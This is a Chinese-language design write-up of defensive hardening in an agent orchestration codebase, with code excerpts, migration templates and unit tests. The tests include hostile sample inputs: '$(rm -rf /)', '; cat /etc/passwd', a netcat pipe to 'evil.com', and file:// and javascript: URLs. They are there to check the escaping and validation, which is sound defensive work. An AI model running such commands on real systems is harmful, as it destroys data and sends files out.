



# PD-210.01 Agent Orchestrator — 全栈安全加固体系

> 文档编号：PD-210.01
> 来源：Agent Orchestrator `packages/core/src/utils.ts`, `packages/core/src/metadata.ts`, `packages/plugins/workspace-worktree/src/index.ts`
> GitHub：https://github.com/ComposioHQ/agent-orchestrator.git
> 问题域：PD-210 安全加固 Security Hardening
> 状态：可复用方案

---

## 第 1 章 问题与动机

### 1.1 核心问题

Agent 编排系统天然面临多层安全威胁：它需要执行 shell 命令（git、tmux、claude CLI）、管理文件系统路径（worktree、clone、symlink）、调用外部 API（GitHub GraphQL、Slack/Webhook）、处理用户输入（sessionId、projectId、branch name）。任何一层的疏忽都可能导致：

- **Shell 注入**：用户可控的 sessionId/branch 拼入 shell 命令字符串，执行任意代码
- **路径穿越**：恶意 sessionId 如 `../../etc/passwd` 逃逸出预期目录
- **API 注入**：repo name 拼入 GraphQL 查询字符串，篡改查询语义
- **Symlink 逃逸**：workspace 内的 symlink 指向 workspace 外的敏感文件
- **协议注入**：webhook URL 使用 `file://` 或 `javascript:` 协议读取本地文件

Agent Orchestrator 作为一个管理多个 AI Agent 会话的编排器，这些威胁尤其严重——因为 Agent 本身具有执行代码的能力，安全边界的突破意味着 Agent 可能被诱导执行恶意操作。

### 1.2 Agent Orchestrator 的解法概述

Agent Orchestrator 采用**纵深防御**策略，在每一层都设置独立的安全屏障：

1. **execFile 全面替代 exec**：所有 shell 命令执行使用 `execFile` + 数组参数，从根本上消除 shell 注入（`packages/core/src/utils.ts:13`, `packages/cli/src/lib/shell.ts:16`）
2. **正则白名单校验**：sessionId/projectId 必须匹配 `/^[a-zA-Z0-9_-]+$/`，在路径构造前拦截穿越尝试（`packages/core/src/metadata.ts:67-73`）
3. **GraphQL 变量参数化**：GitHub API 查询使用 `-f`/`-F` 变量传参，查询字符串与数据完全分离（`packages/cli/src/commands/review-check.ts:25-41`）
4. **Symlink 双重边界检查**：先拒绝绝对路径和 `..` 段，再用 `resolve()` 验证最终路径不逃逸 workspace（`packages/plugins/workspace-worktree/src/index.ts:255-269`）
5. **协议白名单校验**：webhook URL 必须以 `http://` 或 `https://` 开头（`packages/core/src/utils.ts:29-33`）

### 1.3 设计思想

| 设计原则 | 具体实现 | 理由 | 替代方案 |
|----------|----------|------|----------|
| 消除攻击面优于过滤 | execFile 不经过 shell 解析 | 无需考虑 shell 元字符转义的完备性 | exec + shellEscape（仍有遗漏风险） |
| 白名单优于黑名单 | `[a-zA-Z0-9_-]+` 正则校验 | 只允许已知安全字符，未知字符一律拒绝 | 黑名单过滤 `../` 等（可被编码绕过） |
| 数据与代码分离 | GraphQL 变量传参 | 查询结构固定，数据通过类型化变量注入 | 字符串拼接 + 转义（易遗漏） |
| 双重验证 | symlink 先检查语法再检查语义 | 防御 Unicode 规范化等绕过手段 | 仅检查 `..`（可被 symlink 链绕过） |
| 最小协议集 | 仅允许 http/https | 阻止 file://、data:、javascript: 等 | URL 解析 + 协议黑名单（不完备） |

---

## 第 2 章 源码实现分析

### 2.1 架构概览

Agent Orchestrator 的安全加固分布在 4 个层次，每层独立防御：

```
┌─────────────────────────────────────────────────────────┐
│                    CLI / API 入口层                       │
│  ┌─────────────┐  ┌──────────────┐  ┌────────────────┐  │
│  │ sessionId   │  │ GraphQL 变量 │  │ webhook URL    │  │
│  │ 正则校验    │  │ 参数化传参   │  │ 协议白名单     │  │
│  └──────┬──────┘  └──────┬───────┘  └───────┬────────┘  │
├─────────┼────────────────┼──────────────────┼───────────┤
│         ▼                ▼                  ▼            │
│                   命令执行层                              │
│  ┌──────────────────────────────────────────────────┐   │
│  │ execFile + 数组参数（全局统一，无 exec 调用）      │   │
│  │ shellEscape 用于 sh -c 上下文的参数保护            │   │
│  │ escapeAppleScript 用于 osascript 注入防护          │   │
│  └──────────────────────┬───────────────────────────┘   │
├─────────────────────────┼───────────────────────────────┤
│                         ▼                                │
│                   文件系统层                              │
│  ┌──────────────────────────────────────────────────┐   │
│  │ SAFE_PATH_SEGMENT 白名单 → join() 路径构造        │   │
│  │ symlink: 拒绝绝对路径 + 拒绝 .. + resolve 边界检查 │   │
│  └──────────────────────────────────────────────────┘   │
├─────────────────────────────────────────────────────────┤
│                   数据解析层                              │
│  ┌──────────────────────────────────────────────────┐   │
│  │ JSON.parse try/catch + 结构验证                    │   │
│  │ key=value 元数据安全解析（跳过注释、校验 key）      │   │
│  │ 类型守卫：typeof 检查 + Number.isFinite 验证       │   │
│  └──────────────────────────────────────────────────┘   │
└─────────────────────────────────────────────────────────┘
```

### 2.2 核心实现

#### 2.2.1 Shell 注入防护：execFile 全面替代 exec



CLI 层的 `exec` 封装（`packages/cli/src/lib/shell.ts:11-22`）：

```typescript
// shell.ts — 全局统一的命令执行封装
// 注意：函数名虽叫 exec，实际底层是 execFile
export async function exec(
  cmd: string,
  args: string[],
  options?: { cwd?: string; env?: Record<string, string> },
): Promise<ExecResult> {
  const { stdout, stderr } = await execFileAsync(cmd, args, {
    cwd: options?.cwd,
    env: options?.env ? { ...process.env, ...options.env } : undefined,
    maxBuffer: 10 * 1024 * 1024,
  });
  return { stdout: stdout.trimEnd(), stderr: stderr.trimEnd() };
}
```

workspace 插件中的 git 命令封装（`packages/plugins/workspace-worktree/src/index.ts:27-30`）：

```typescript
async function git(cwd: string, ...args: string[]): Promise<string> {
  const { stdout } = await execFileAsync("git", args, { cwd });
  return stdout.trimEnd();
}
```

当必须使用 shell 特性（如 `$()` 命令替换）时，使用 POSIX shellEscape（`packages/core/src/utils.ts:13-15`）：

```typescript
export function shellEscape(arg: string): string {
  return "'" + arg.replace(/'/g, "'\\''") + "'";
}
```

实际使用场景——Claude Code Agent 启动命令构建（`packages/plugins/agent-claude-code/src/index.ts:586-612`）：

```typescript
getLaunchCommand(config: AgentLaunchConfig): string {
  const parts: string[] = ["claude"];
  if (config.model) {
    parts.push("--model", shellEscape(config.model));
  }
  if (config.systemPromptFile) {
    // 双引号允许 $() 展开；内部路径用 shellEscape 单引号保护
    parts.push("--append-system-prompt", `"$(cat ${shellEscape(config.systemPromptFile)})"`);
  } else if (config.systemPrompt) {
    parts.push("--append-system-prompt", shellEscape(config.systemPrompt));
  }
  if (config.prompt) {
    parts.push("-p", shellEscape(config.prompt));
  }
  return parts.join(" ");
}
```

macOS 桌面通知的 AppleScript 注入防护（`packages/plugins/notifier-desktop/src/index.ts:63-68`）：

```typescript
const safeTitle = escapeAppleScript(title);
const safeMessage = escapeAppleScript(message);
const script = `display notification "${safeMessage}" with title "${safeTitle}"${soundClause}`;
execFile("osascript", ["-e", script], (err) => { ... });
```

#### 2.2.2 路径穿越防护：正则白名单 + resolve 边界检查



sessionId 校验（`packages/core/src/metadata.ts:67-78`）：

```typescript
const VALID_SESSION_ID = /^[a-zA-Z0-9_-]+$/;

function validateSessionId(sessionId: SessionId): void {
  if (!VALID_SESSION_ID.test(sessionId)) {
    throw new Error(`Invalid session ID: ${sessionId}`);
  }
}

function metadataPath(dataDir: string, sessionId: SessionId): string {
  validateSessionId(sessionId);  // 校验在路径构造之前
  return join(dataDir, sessionId);
}
```

workspace 路径段校验（`packages/plugins/workspace-worktree/src/index.ts:33-39, 57-59`）：

```typescript
const SAFE_PATH_SEGMENT = /^[a-zA-Z0-9_-]+$/;

function assertSafePathSegment(value: string, label: string): void {
  if (!SAFE_PATH_SEGMENT.test(value)) {
    throw new Error(`Invalid ${label} "${value}": must match ${SAFE_PATH_SEGMENT}`);
  }
}

// 使用处：workspace 创建时校验两个路径段
async create(cfg: WorkspaceCreateConfig): Promise<WorkspaceInfo> {
  assertSafePathSegment(cfg.projectId, "projectId");
  assertSafePathSegment(cfg.sessionId, "sessionId");
  // ...
}
```

Symlink 双重边界检查（`packages/plugins/workspace-worktree/src/index.ts:253-269`）：

```typescript
for (const symlinkPath of project.symlinks) {
  // 第一层：语法检查 — 拒绝绝对路径和 .. 段
  if (symlinkPath.startsWith("/") || symlinkPath.includes("..")) {
    throw new Error(
      `Invalid symlink path "${symlinkPath}": must be a relative path without ".." segments`,
    );
  }

  const sourcePath = join(repoPath, symlinkPath);
  const targetPath = resolve(info.path, symlinkPath);

  // 第二层：语义检查 — resolve 后验证仍在 workspace 内
  if (!targetPath.startsWith(info.path + "/") && targetPath !== info.path) {
    throw new Error(
      `Symlink target "${symlinkPath}" resolves outside workspace: ${targetPath}`,
    );
  }
}
```

#### 2.2.3 API 注入防护：GraphQL 变量参数化



对应源码 `packages/cli/src/commands/review-check.ts:25-41`：

```typescript
// 查询模板是固定字符串，不拼接任何用户输入
const query =
  "query($owner:String!,$name:String!,$pr:Int!)" +
  "{repository(owner:$owner,name:$name)" +
  "{pullRequest(number:$pr){reviewDecision " +
  "reviewThreads(first:100){nodes{isResolved}}}}}";

// 变量通过 gh CLI 的 -f（字符串）和 -F（整数）标志传递
const result = await gh([
  "api", "graphql",
  "-f", `query=${query}`,
  "-f", `owner=${owner}`,    // 字符串变量
  "-f", `name=${name}`,      // 字符串变量
  "-F", `pr=${prNumber}`,    // 整数变量（-F 自动转换类型）
  "--jq", ".data.repository.pullRequest",
]);
```

#### 2.2.4 Webhook URL 协议校验

对应源码 `packages/core/src/utils.ts:29-33`：

```typescript
export function validateUrl(url: string, label: string): void {
  if (!url.startsWith("https://") && !url.startsWith("http://")) {
    throw new Error(`[${label}] Invalid url: must be http(s), got "${url}"`);
  }
}
```

在 Slack 和通用 Webhook 插件初始化时调用（`packages/plugins/notifier-slack/src/index.ts:141`, `packages/plugins/notifier-webhook/src/index.ts:121`）。

### 2.3 实现细节

**类型守卫防御不可信数据**

Webhook 插件对配置参数进行严格的类型守卫（`packages/plugins/notifier-webhook/src/index.ts:108-116`）：

```typescript
// headers 必须是非数组对象，且每个值必须是字符串
if (rawHeaders && typeof rawHeaders === "object" && !Array.isArray(rawHeaders)) {
  for (const [k, v] of Object.entries(rawHeaders)) {
    if (typeof v === "string") customHeaders[k] = v;
  }
}
// 数值参数用 Number.isFinite 校验，防止 NaN/Infinity
const retries = Number.isFinite(rawRetries) ? Math.max(0, rawRetries) : 2;
const retryDelayMs = Number.isFinite(rawDelay) && rawDelay >= 0 ? rawDelay : 1000;
```

**状态枚举白名单**

Session 状态使用 ReadonlySet 白名单校验（`packages/core/src/session-manager.ts:88-113`）：

```typescript
const VALID_STATUSES: ReadonlySet<string> = new Set([
  "spawning", "working", "pr_open", "ci_failed", "review_pending",
  "changes_requested", "approved", "mergeable", "merged",
  "cleanup", "needs_input", "stuck", "errored", "killed", "done", "terminated",
]);

function validateStatus(raw: string | undefined): SessionStatus {
  if (raw === "starting") return "working";  // 兼容旧值
  if (raw && VALID_STATUSES.has(raw)) return raw as SessionStatus;
  return "spawning";  // 未知值降级为安全默认值
}
```

**元数据文件原子操作**

Session ID 预留使用 `O_EXCL` 原子创建防止竞态（`packages/core/src/metadata.ts:264-274`）：

```typescript
export function reserveSessionId(dataDir: string, sessionId: SessionId): boolean {
  const path = metadataPath(dataDir, sessionId);  // 内部调用 validateSessionId
  mkdirSync(dirname(path), { recursive: true });
  try {
    const fd = openSync(path, constants.O_WRONLY | constants.O_CREAT | constants.O_EXCL);
    closeSync(fd);
    return true;
  } catch {
    return false;  // 文件已存在 = ID 已被占用
  }
}
```

---

## 第 3 章 迁移指南

### 3.1 迁移清单

**阶段 1：命令执行加固（优先级最高）**

- [ ] 全局搜索 `child_process.exec(`，替换为 `execFile` + 数组参数
- [ ] 对必须使用 shell 的场景（管道、重定向），改用 `execFile("sh", ["-c", cmd])`
- [ ] 所有拼入 shell 命令的用户输入，使用 `shellEscape()` 包裹
- [ ] AppleScript 场景使用 `escapeAppleScript()` 转义

**阶段 2：路径安全加固**

- [ ] 所有用户可控的路径段（ID、名称），添加正则白名单校验
- [ ] symlink 创建前检查：拒绝绝对路径 + 拒绝 `..` + resolve 边界验证
- [ ] 文件操作前验证路径在预期目录内

**阶段 3：API 与网络加固**

- [ ] GraphQL 查询使用变量参数化，不拼接用户输入
- [ ] 外部 URL 校验协议白名单（http/https）
- [ ] HTTP 请求配置参数使用类型守卫

**阶段 4：数据解析加固**

- [ ] JSON.parse 包裹 try/catch，解析后验证结构
- [ ] 枚举值使用 Set 白名单校验
- [ ] 数值参数使用 Number.isFinite 校验

### 3.2 适配代码模板

**安全命令执行封装（TypeScript）：**

```typescript
import { execFile } from "node:child_process";
import { promisify } from "node:util";

const execFileAsync = promisify(execFile);

/** POSIX-safe shell escaping */
export function shellEscape(arg: string): string {
  return "'" + arg.replace(/'/g, "'\\''") + "'";
}

/** 安全执行外部命令 — 参数不经过 shell 解析 */
export async function safeExec(
  cmd: string,
  args: string[],
  options?: { cwd?: string; timeout?: number },
): Promise<{ stdout: string; stderr: string }> {
  const { stdout, stderr } = await execFileAsync(cmd, args, {
    cwd: options?.cwd,
    timeout: options?.timeout ?? 30_000,
    maxBuffer: 10 * 1024 * 1024,
  });
  return { stdout: stdout.trimEnd(), stderr: stderr.trimEnd() };
}

/** 安全执行 git 命令 */
export async function git(cwd: string, ...args: string[]): Promise<string> {
  const { stdout } = await safeExec("git", args, { cwd });
  return stdout;
}
```

**安全路径构造封装：**

```typescript
import { join, resolve } from "node:path";

const SAFE_SEGMENT = /^[a-zA-Z0-9_-]+$/;

export function assertSafeSegment(value: string, label: string): void {
  if (!SAFE_SEGMENT.test(value)) {
    throw new Error(`Invalid ${label}: "${value}" contains unsafe characters`);
  }
}

export function safePath(baseDir: string, ...segments: string[]): string {
  for (const seg of segments) {
    assertSafeSegment(seg, "path segment");
  }
  return join(baseDir, ...segments);
}

export function assertWithinBoundary(
  targetPath: string,
  boundaryDir: string,
): void {
  const resolved = resolve(targetPath);
  const boundary = resolve(boundaryDir);
  if (resolved !== boundary && !resolved.startsWith(boundary + "/")) {
    throw new Error(`Path "${targetPath}" escapes boundary "${boundaryDir}"`);
  }
}
```

### 3.3 适用场景

| 场景 | 适用度 | 说明 |
|------|--------|------|
| Agent 编排系统 | ⭐⭐⭐ | 直接适用，Agent 天然需要执行命令和管理文件 |
| CLI 工具开发 | ⭐⭐⭐ | execFile + 路径校验是 CLI 安全基础 |
| Webhook 集成 | ⭐⭐⭐ | URL 校验 + 类型守卫 + 重试策略直接复用 |
| Web 后端 API | ⭐⭐ | GraphQL 参数化和输入校验适用，shell 执行场景较少 |
| 纯前端应用 | ⭐ | 仅类型守卫和输入校验部分适用 |

---

## 第 4 章 测试用例

```typescript
import { describe, it, expect } from "vitest";

// ========== Shell Escape ==========
describe("shellEscape", () => {
  function shellEscape(arg: string): string {
    return "'" + arg.replace(/'/g, "'\\''") + "'";
  }

  it("should wrap normal strings in single quotes", () => {
    expect(shellEscape("hello")).toBe("'hello'");
  });

  it("should escape embedded single quotes", () => {
    expect(shellEscape("it's")).toBe("'it'\\''s'");
  });

  it("should neutralize shell metacharacters", () => {
    expect(shellEscape("$(rm -rf /)")).toBe("'$(rm -rf /)'");
    expect(shellEscape("; cat /etc/passwd")).toBe("'; cat /etc/passwd'");
    expect(shellEscape("| nc evil.com 1234")).toBe("'| nc evil.com 1234'");
  });

  it("should handle empty string", () => {
    expect(shellEscape("")).toBe("''");
  });
});

// ========== Path Validation ==========
describe("assertSafePathSegment", () => {
  const SAFE_PATH_SEGMENT = /^[a-zA-Z0-9_-]+$/;

  function assertSafe(value: string): void {
    if (!SAFE_PATH_SEGMENT.test(value)) {
      throw new Error(`Invalid: ${value}`);
    }
  }

  it("should accept alphanumeric with hyphens and underscores", () => {
    expect(() => assertSafe("session-1")).not.toThrow();
    expect(() => assertSafe("my_project")).not.toThrow();
    expect(() => assertSafe("ABC123")).not.toThrow();
  });

  it("should reject path traversal attempts", () => {
    expect(() => assertSafe("../../etc")).toThrow();
    expect(() => assertSafe("..")).toThrow();
  });

  it("should reject slashes", () => {
    expect(() => assertSafe("a/b")).toThrow();
    expect(() => assertSafe("/root")).toThrow();
  });

  it("should reject spaces and special characters", () => {
    expect(() => assertSafe("a b")).toThrow();
    expect(() => assertSafe("a;b")).toThrow();
    expect(() => assertSafe("a$(cmd)")).toThrow();
  });

  it("should reject empty string", () => {
    expect(() => assertSafe("")).toThrow();
  });
});

// ========== URL Validation ==========
describe("validateUrl", () => {
  function validateUrl(url: string, label: string): void {
    if (!url.startsWith("https://") && !url.startsWith("http://")) {
      throw new Error(`[${label}] Invalid url: must be http(s), got "${url}"`);
    }
  }

  it("should accept https URLs", () => {
    expect(() => validateUrl("https://hooks.slack.com/xxx", "test")).not.toThrow();
  });

  it("should accept http URLs", () => {
    expect(() => validateUrl("http://localhost:3000/hook", "test")).not.toThrow();
  });

  it("should reject file:// protocol", () => {
    expect(() => validateUrl("file:///etc/passwd", "test")).toThrow();
  });

  it("should reject javascript: protocol", () => {
    expect(() => validateUrl("javascript:alert(1)", "test")).toThrow();
  });

  it("should reject data: protocol", () => {
    expect(() => validateUrl("data:text/html,<script>", "test")).toThrow();
  });
});

// ========== Symlink Boundary Check ==========
describe("symlink boundary check", () => {
  function checkSymlink(symlinkPath: string, workspacePath: string): void {
    if (symlinkPath.startsWith("/") || symlinkPath.includes("..")) {
      throw new Error(`Invalid symlink: ${symlinkPath}`);
    }
    const { resolve } = require("node:path");
    const targetPath = resolve(workspacePath, symlinkPath);
    if (!targetPath.startsWith(workspacePath + "/") && targetPath !== workspacePath) {
      throw new Error(`Symlink escapes workspace: ${targetPath}`);
    }
  }

  it("should accept relative paths within workspace", () => {
    expect(() => checkSymlink("node_modules", "/workspace/proj")).not.toThrow();
    expect(() => checkSymlink("src/lib", "/workspace/proj")).not.toThrow();
  });

  it("should reject absolute paths", () => {
    expect(() => checkSymlink("/etc/passwd", "/workspace/proj")).toThrow();
  });

  it("should reject .. traversal", () => {
    expect(() => checkSymlink("../secret", "/workspace/proj")).toThrow();
    expect(() => checkSymlink("foo/../../bar", "/workspace/proj")).toThrow();
  });
});

// ========== AppleScript Escape ==========
describe("escapeAppleScript", () => {
  function escapeAppleScript(s: string): string {
    return s.replace(/\\/g, "\\\\").replace(/"/g, '\\"');
  }

  it("should escape double quotes", () => {
    expect(escapeAppleScript('hello "world"')).toBe('hello \\"world\\"');
  });

  it("should escape backslashes", () => {
    expect(escapeAppleScript("path\\to\\file")).toBe("path\\\\to\\\\file");
  });

  it("should handle combined escapes", () => {
    expect(escapeAppleScript('say \\"hi\\"')).toBe('say \\\\\\"hi\\\\\\"');
  });
});
```

---

## 第 5 章 跨域关联

| 关联域 | 关系类型 | 说明 |
|--------|----------|------|
| PD-04 工具系统 | 强依赖 | Agent 工具执行（Bash、Read 等）是安全加固的核心保护对象；execFile 替代 exec 直接服务于工具系统的安全执行 |
| PD-05 沙箱隔离 | 协同 | workspace worktree/clone 的路径校验和 symlink 边界检查是沙箱隔离的安全基础；安全加固确保隔离边界不被穿越 |
| PD-10 中间件管道 | 协同 | PostToolUse hook 脚本（metadata-updater.sh）在中间件管道中运行，其 bash 脚本本身需要安全的输入处理 |
| PD-11 可观测性 | 协同 | JSONL 日志文件的安全解析（JSON.parse try/catch + 结构验证）确保可观测性数据不被恶意构造的日志条目破坏 |
| PD-06 记忆持久化 | 依赖 | 元数据文件（key=value 格式）的安全读写、sessionId 校验、O_EXCL 原子创建都是记忆持久化的安全保障 |

---

## 第 6 章 来源文件索引

| 文件 | 行范围 | 关键实现 |
|------|--------|----------|
| `packages/core/src/utils.ts` | L13-15 | shellEscape POSIX 单引号转义 |
| `packages/core/src/utils.ts` | L21-23 | escapeAppleScript 双引号/反斜杠转义 |
| `packages/core/src/utils.ts` | L29-33 | validateUrl 协议白名单校验 |
| `packages/core/src/utils.ts` | L90-110 | readLastJsonlEntry 安全 JSON 解析 |
| `packages/core/src/metadata.ts` | L42-54 | parseMetadataFile 安全 key=value 解析 |
| `packages/core/src/metadata.ts` | L67-78 | VALID_SESSION_ID 正则 + validateSessionId |
| `packages/core/src/metadata.ts` | L264-274 | reserveSessionId O_EXCL 原子创建 |
| `packages/core/src/session-manager.ts` | L88-113 | VALID_STATUSES 白名单 + validateStatus |
| `packages/cli/src/lib/shell.ts` | L1-22 | exec 封装（底层 execFile） |
| `packages/cli/src/commands/review-check.ts` | L25-41 | GraphQL 变量参数化查询 |
| `packages/plugins/workspace-worktree/src/index.ts` | L33-39 | SAFE_PATH_SEGMENT + assertSafePathSegment |
| `packages/plugins/workspace-worktree/src/index.ts` | L57-59 | projectId/sessionId 校验调用 |
| `packages/plugins/workspace-worktree/src/index.ts` | L253-269 | symlink 双重边界检查 |
| `packages/plugins/workspace-clone/src/index.ts` | L30-36 | SAFE_PATH_SEGMENT（同 worktree） |
| `packages/plugins/agent-claude-code/src/index.ts` | L586-612 | shellEscape 在 CLI 命令构建中的使用 |
| `packages/plugins/notifier-desktop/src/index.ts` | L63-68 | escapeAppleScript 在 osascript 中的使用 |
| `packages/plugins/notifier-webhook/src/index.ts` | L108-116 | 类型守卫 + Number.isFinite 校验 |
| `packages/plugins/notifier-webhook/src/index.ts` | L121 | validateUrl 调用 |
| `packages/plugins/notifier-slack/src/index.ts` | L141 | validateUrl 调用 |

---

## 第 7 章 横向对比维度

```json comparison_data
{
  "project": "AgentOrchestrator",
  "dimensions": {
    "命令执行防护": "全局 execFile+数组参数，零 exec 调用；shellEscape 用于 sh -c 场景",
    "路径穿越防护": "SAFE_PATH_SEGMENT 正则白名单 + symlink resolve 双重边界检查",
    "API 注入防护": "GraphQL 变量参数化 -f/-F 传参，查询与数据完全分离",
    "协议校验": "validateUrl 仅允许 http/https，插件初始化时校验",
    "类型安全": "typeof 守卫 + Number.isFinite + ReadonlySet 枚举白名单",
    "原子操作": "O_EXCL 文件创建防竞态，元数据 tmp+mv 原子替换"
  }
}
```

### 域元数据补充

```json domain_metadata
{
  "solution_summary": "Agent Orchestrator 用 execFile 全面替代 exec 防 shell 注入，SAFE_PATH_SEGMENT 正则+resolve 双重检查防路径穿越，GraphQL 变量参数化防 API 注入，symlink 边界校验防 workspace 逃逸",
  "description": "Agent 编排系统的多层纵深防御，覆盖命令执行、文件系统、API 调用、数据解析四个攻击面",
  "sub_problems": [
    "AppleScript 注入防护（osascript 场景）",
    "webhook 协议注入防护（file://、data: 等）",
    "元数据文件竞态条件防护",
    "配置参数类型安全守卫"
  ],
  "best_practices": [
    "symlink 创建前双重检查：语法拒绝绝对路径和..段 + 语义 resolve 边界验证",
    "GraphQL 查询使用 -f/-F 变量传参替代字符串拼接",
    "O_EXCL 原子文件创建防止 session ID 竞态占用",
    "枚举值使用 ReadonlySet 白名单校验，未知值降级为安全默认值"
  ]
}
```
